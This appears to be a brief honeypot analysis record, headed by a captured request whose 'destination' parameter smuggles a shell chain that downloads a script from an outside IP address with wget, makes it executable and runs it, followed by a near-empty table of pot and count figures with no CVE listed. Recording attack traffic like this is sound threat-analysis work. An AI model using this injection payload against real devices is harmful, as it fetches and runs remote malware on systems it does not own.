 # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://45.133.1.133/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 2 | 2 | | 220110-033754 |

## CVE: 